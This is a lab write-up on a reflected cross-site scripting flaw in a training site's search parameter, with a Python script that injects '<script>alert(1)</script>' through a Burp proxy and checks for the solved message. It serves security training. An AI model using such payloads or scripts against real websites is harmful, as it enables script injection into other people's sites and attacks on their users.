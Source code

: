 ```yaml
---
title: 'XSS Lab 1'
description: 'Reflected cross-site scripting attack into HTML context with nothing encoded'
---
```



## Reflected XSS into HTML context with nothing encoded

<div style="text-align: justify;">
  This lab demonstrates a simple reflected XSS vulnerability in the search functionality of a web application. The application does not encode user input before rendering it in the HTML response, allowing an attacker to execute arbitrary JavaScript. The goal is to inject a payload that calls the `alert()` function.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `search` parameter is vulnerable to reflected XSS.
- By injecting `<script>alert(1)</script>`, the browser executes the JavaScript in the HTML context.
- Once the payload executes, the lab marks it as solved.
- This demonstrates the importance of output encoding to prevent XSS attacks.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.

    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
        uri = f"/?search={payload}"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
        session = requests.Session()
        res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload
    payload = '<script>alert(1)</script>'

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```